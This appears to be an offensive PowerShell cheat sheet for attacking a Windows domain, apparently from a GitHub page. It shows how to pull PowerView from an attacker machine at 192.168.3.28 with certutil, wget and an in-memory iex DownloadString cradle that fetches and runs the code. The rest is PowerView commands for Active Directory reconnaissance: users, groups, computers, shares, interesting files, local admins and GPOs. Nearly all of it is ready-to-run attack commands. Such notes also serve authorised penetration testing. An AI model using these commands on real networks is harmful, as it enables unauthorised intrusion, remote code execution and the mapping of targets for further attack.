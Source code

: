 # offensive powershell

Attacker's machine is 192.168.3.28, and a file called powerview.ps1 is being hosted on a web server

## download files from powershell

---

Download to file:

```powershell
certutil.exe -urlcache -f http://192.168.3.28/powerview.ps1 powerview.ps1
```

```powershell
wget http://192.168.3.28/powerview.ps1 -outfile powerview.ps1
```

Download to memory:

```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')
```

## enumerating users & groups

---

### users

View all users:

```powershell
Get-NetUser
```

View canonical names of users

```powershell
Get-NetUser | Select cn
```

View SAM account names of users

```powershell
Get-NetUser | Select -ExpandProperty SamAccountName
```

Check descriptions of users

```powershell
Find-UserField -SearchField Description
```

```powershell
Find-UserField -SearchField Description "admin"
```

### groups

View all groups. On the bottom of the output are user-created groups.

```powershell
Get-NetGroup
```

Get group of user

```powershell
Get-NetGroup -UserName "s.chisholm"
```

Get group, verbose

```powershell
Get-NetGroup -GroupName "IT Admins" -FullData
```

## enumerating domain computers and shares

---

List all domain-connected computers

```powershell
Get-NetComputer
```

List all domain-connected computers, verbose

```powershell
Get-NetComputer -FullData
```

List all computers based on OS. Keep in mind the asterisks (*) 

```powershell
Get-NetComputer -OperatingSystem "*Windows 10*"
```

View file shares

```powershell
Invoke-ShareFinder
```

View file shares except for default ones

```powershell
Invoke-ShareFinder -ExcludeStandard -ExcludePrint -ExcludeIPC
```

View file shares, verbose

```powershell
Invoke-ShareFinder -Verbose
```

View interesting files

```powershell
Invoke-FileFinder
```

## enumerating local admins

---

```powershell
Invoke-EnumerateLocalAdmin
```

## enumerating group policy objects

---

```powershell
Get-NetGPO
```





































